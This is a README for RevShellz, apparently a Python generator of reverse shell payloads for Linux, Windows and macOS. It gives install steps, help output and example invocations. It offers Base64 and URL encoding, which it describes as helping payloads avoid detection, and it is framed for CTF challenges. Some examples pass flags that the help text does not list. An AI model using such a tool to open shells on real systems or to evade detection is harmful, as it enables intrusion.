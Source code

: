<h1 align="center">
  <br>
  <a href="https://github.com/mkdirlove/RevShellz"><img src="https://github.com/mkdirlove/RevShellz/blob/main/logo.png" alt="RevShellz
"></a>
  <br>
  Yet another reverse shell generator written in Python.
  <br>
</h1>

#### About
```
Initially developed by mkdirlove and enhanced by me (veilwr4ith), is a reverse shell payload generator compatible with Linux, Windows, and macOS.
The updated version includes new features such as Base64 and URL encoding for payloads, which helps avoid straightforward detection by making them less immediately recognizable.
This is particularly useful for Capture The Flag (CTF) challenges with payload restrictions.
Additionally, I've incorporated various payloads into the tool's dictionary, including Python-based payloads, Lua, and msfvenom options for Metasploit.
```

#### Installation

Copy-paste this into your terminal:

```sh
git clone https://github.com/mkdirlove/RevShellz.git
```
```
cd RevShellz
```
```
python3 revshellz.py
```
or
```
python3 revshellz.py -h
```
#### Usage
``` 
░█▀▄░█▀▀░█░█░█▀▀░█░█░█▀▀░█░░░█░░░▀▀█ v2.0-dev
░█▀▄░█▀▀░▀▄▀░▀▀█░█▀█░█▀▀░█░░░█░░░▄▀░
░▀░▀░▀▀▀░░▀░░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀ 

Made with ❤️  by @mkdirlovee & @veilwr4ith

usage: test.py [-h] [-ip IPADDRESS] [-p PORT] [-os OPERATING_SYSTEM] [-pl PAYLOAD] [-l LIST] [-enc ENCODE]

RevShellz: Yet another reverse shell generator written in Python.

options:
  -h, --help            show this help message and exit
  -ip IPADDRESS, --ipaddress IPADDRESS
                        Target IP address
  -p PORT, --port PORT  Target port number
  -os OPERATING_SYSTEM, --operating-system OPERATING_SYSTEM
                        Target operating system (linux, windows, macos)
  -pl PAYLOAD, --payload PAYLOAD
                        Payload for reverse shell
  -l LIST, --list LIST  List available reverse shell payload types for the specified OS
  -enc ENCODE, --encode ENCODE
                        Encode the payload in Base64 or URL

```
#### Example

Listing reverse shells
```
python3 revshellz.py -l linux, windows, macos
```

#### Example

Generating reverse shell for Linux
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'bash -i' -os linux
```
Generating reverse shell for Windows
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'PowerShell #1' -os windows
```
Generating reverse shell for MacOS
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux
```
Generating reverse shell with URL Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc url
```
Generating reverse shell with Base64 Encoding
```
python3 revshellz.py -ip 10.10.10.1 -p 1337 -rs 'nc mkfifo' -os linux -enc base64
```
